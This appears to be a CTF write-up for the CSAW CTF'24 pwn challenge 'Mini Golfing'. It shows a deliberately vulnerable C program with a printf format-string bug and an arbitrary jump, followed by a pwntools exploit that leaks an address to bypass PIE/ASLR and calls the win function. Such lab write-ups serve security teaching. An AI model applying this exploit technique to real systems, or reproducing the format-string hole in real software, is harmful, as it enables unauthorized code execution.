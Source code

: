 ```yaml
---
title: CSAW CTF - Mini Golfing
description: A pwn chall. writeup from CSAW CTF'24
date: "2024-09-20"
---
```


![first](https://images.app.goo.gl/iAL2YZYSjmpiG8xS8)

## Let's get cracking...

### Challenge Description:

`Let’s go mini golfing! To win, just aim correctly! Except the hole with the pin keeps moving…`

Following is the main challenge file.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define MAX_STRINGS 32

void win() {
    system("cat /flag.txt");
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
            
    fflush(stdout);
    fflush(stdin);

    uintptr_t address;
    char *all_strings[MAX_STRINGS] = {NULL};
 char buf[1024] = {'\0'};

    printf("Welcome to PWN GOLF.\n");
    printf("Would you like to enter your name? ");
   
    fgets(buf, 1024, stdin);
    printf("hello: ");
 printf(buf);
   
    printf("\nAlright! Tell me the address you want to aim at!: ");
    scanf("%lx", &address);
    void (*target)(void) = (void(*))address;
    printf("Ok jumping to that address...");
    target();

    return 0;
}
```

## Challenge Breakdown:

It was a classic PWN challenge where the goal was to exploit a vulnerable program that allowed you to jump to any address you provided. The twist, however, was that both Position Independent Executable (`PIE`) and Address Space Layout Randomization (`ASLR`) were enabled, making it impossible to use static addresses to hijack the control flow. This meant I had to come up with a creative way to bypass the randomized memory layout. Instead of relying on known addresses, I had to leak or brute force information about the memory space to find where the key functions or gadgets were located.

### Solution:

```python
from pwn import *
from pwn import p64

binary = ELF("./golf")
#conn = process(binary.path)
conn = remote("localhost", 9999)

exploit = "%171$p"
conn.sendline(exploit)
leaked_address = conn.recvuntil(b"\n\n").split()
leaked_address = leaked_address[-1].decode('UTF-8')

leaked_addr_int = int(leaked_address, 16)

win_addr = leaked_addr_int - 26
win_addr = hex(win_addr)

conn.sendline(win_addr)
conn.interactive()
```

This exploit script solves the challenge by leveraging a format string vulnerability to leak the memory address of the `main` function. Since both `PIE` and `ASLR` are enabled, the program's memory layout is randomized, so static addresses cannot be used. The format string payload `%171$p` retrieves the address of the `main` function from the program's stack. Once the address is leaked and parsed, the script calculates the address of the `win` function by subtracting 26 (determined through prior reverse engineering). This offset allows the script to adjust for the randomized memory layout, effectively bypassing `ASLR` and `PIE` protections. The calculated `win` address is then sent, causing the program to jump to and execute the `win` function, thereby achieving code execution and solving the challenge.

**Flag:** `csawctf{I_doNT_want_t0_g0_901FING_AnymOrE_pl34S3_Thank_you_!!!}`

Thanks for reading — I hope this blog has helped you learn something new and useful.

Stay in the loop with my latest content – follow me on [Medium](https://medium.com/@iabdullah_215) for more!

## MUHAMMAD ABDULLAH
## THANKS
